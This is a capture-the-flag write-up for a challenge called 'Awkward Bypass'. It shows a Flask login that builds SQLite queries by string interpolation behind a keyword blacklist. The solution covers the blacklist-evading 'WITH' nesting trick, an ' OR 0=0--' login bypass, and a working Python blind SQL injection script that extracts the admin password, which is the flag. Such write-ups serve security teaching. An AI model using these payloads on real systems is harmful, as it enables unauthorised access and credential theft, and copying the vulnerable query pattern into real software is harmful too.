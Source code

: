 # Awkward Bypass

## Task

```python
import re
import sqlite3
from flask import Flask, render_template, url_for, request, redirect, make_response

app = Flask(__name__)

blacklist = ["ABORT", "ACTION", "ADD", "AFTER", "ALL", "ALTER", "ALWAYS", "ANALYZE", "AND", "AS", "ASC", "ATTACH", "AUTOINCREMENT", "BEFORE", "BEGIN", "BETWEEN", "CASCADE", "CASE", "CAST", "CHECK", "COLLATE", "COLUMN", "COMMIT", "CONFLICT", "CONSTRAINT", "CREATE", "CROSS", "CURRENT", "CURRENT_DATE", "CURRENT_TIME", "CURRENT_TIMESTAMP", "DATABASE", "DEFAULT", "DEFERRABLE", "DEFERRED", "DELETE", "DESC", "DETACH", "DISTINCT", "DO", "DROP", "EACH", "ELSE", "END", "ESCAPE", "EXCEPT", "EXCLUDE", "EXCLUSIVE", "EXISTS", "EXPLAIN", "FAIL", "FILTER", "FIRST", "FOLLOWING", "FOR", "FOREIGN", "FROM", "FULL", "GENERATED", "GLOB", "GROUP", "GROUPS", "HAVING", "IF", "IGNORE", "IMMEDIATE", "IN", "INDEX", "INDEXED", "INITIALLY", "INNER", "INSERT", "INSTEAD", "INTERSECT", "INTO", "IS", "ISNULL", "JOIN", "KEY", "LAST", "LEFT", "LIKE", "LIMIT", "MATCH", "MATERIALIZED", "NATURAL", "NO", "NOT", "NOTHING", "NOTNULL", "NULL", "NULLS", "OF", "OFFSET", "ON", "OR", "ORDER", "OTHERS", "OUTER", "OVER", "PARTITION", "PLAN", "PRAGMA", "PRECEDING", "PRIMARY", "QUERY", "RAISE", "RANGE", "RECURSIVE", "REFERENCES", "REGEXP", "REINDEX", "RELEASE", "RENAME", "REPLACE", "RESTRICT", "RETURNING", "RIGHT", "ROLLBACK", "ROW", "ROWS", "SAVEPOINT", "SELECT", "SET", "TABLE", "TEMP", "TEMPORARY", "THEN", "TIES", "TO", "TRANSACTION", "TRIGGER", "UNBOUNDED", "UNION", "UNIQUE", "UPDATE", "USING", "VACUUM", "VALUES", "VIEW", "VIRTUAL", "WHEN", "WHERE", "WINDOW", "WITH", "WITHOUT"] 

def checkCreds(username, password):
	con = sqlite3.connect('database.db')
	cur = con.cursor()
	for n in blacklist:
		regex = re.compile(n, re.IGNORECASE)
		username = regex.sub("", username)
	for n in blacklist:
		regex = re.compile(n, re.IGNORECASE)
		password = regex.sub("", password)
	print(f"SELECT * FROM users WHERE username='{username}' AND password='{password}'")		
	try:
		content = cur.execute(f"SELECT * FROM users WHERE username='{username}' AND password='{password}'").fetchall()
	except:
		return False
	cur.close()
	con.close()
	if content == []:
		return False
	else:
		return True

@app.route('/')
def index():
	return render_template("index.html")

@app.route('/user', methods=['POST'])
def user():
	if request.method == 'POST': 
		username = request.values['username']
		password = request.values['password']
		if checkCreds(username, password) == True:
			return render_template("user.html")
		else:
			return "Error"
	else:
		return render_template("user.html")
```

## Solution

We have a long blacklist, but when we look closely, we see
that the words in the blacklist are removed, one after the other.
So if we put in something like `IWITHN` then we don't have any matches
until the `WITH` and at that point we remove it and get `IN`.
So first of all, we need to make sure that we get the login name
correctly, which of course is admin, the only problem being that contains
the word `in` which is blacklisted, thus we need to do actually log in
as `admiWITHn` (Capitalization doesn't matter, just to visualize what I'm doing)

Then we can craft our password to be `' OR 0=0--` which just becomes
`' OWITHR 0=0--` and we get...

`Ummmmmmm, did you expect a flag to be here?`

oh damn, so we need to get the password of the admin user,
not hard to do, just a little bit of python scripting to
check each character one by one using the LIKE keyword and
splitting the payload where necessary with the `WITH` keyword, as
that is the last in the list.

```python
from requests import post
import string

expl = "' OWITHR paWITHsswoWITHrd LIWITHKE '{}%"
curflag = ""

remo = "https://awkward-bypass.chal.imaginaryctf.org"
#remo = "http://localhost:5000"

while True:
    for i in "}"+string.printable:
        if i == "%" or i == "#":
            continue
        x = post(f"{remo}/user",
                data={
                    "username": "admiWITHn",
                    "password": expl.format("WITH".join(curflag+i))})
        print(expl.format("".join(curflag+i)))
        print(x.request.body)
        #print(x.text)
        if "Ummmmmmm" in x.text:
            print(i)
            curflag += i
            print(curflag)
            if i == "}":
                exit(0)
            break
        else:
            print(f"NOPE {i}")
```

as you see, the payload is just `' OWITHR paWITHsswoWITHrd LIWITHKE '{}%`,
which is just `' OR password LIKE '{}%`. The `%` just means match any suffix.
So whatever we put in there is checked and if we log in successfully, we know
we got the correct character. We just need to make sure the password we're
checking is actually what we want to check, so I just sent each character and then
a WITH and then the next character, ... This is to ensure that if we get a
`i` in the flag that we don't try to check the password `...if` which gets
reduced to the password we already know works (without the i) and falsely assuming
we found the next character to be `f` but in actually regressing to the 
previous password.

We get the admin password to be:

`ictf{n1c3_fil73r_byp@ss_7130676d}`
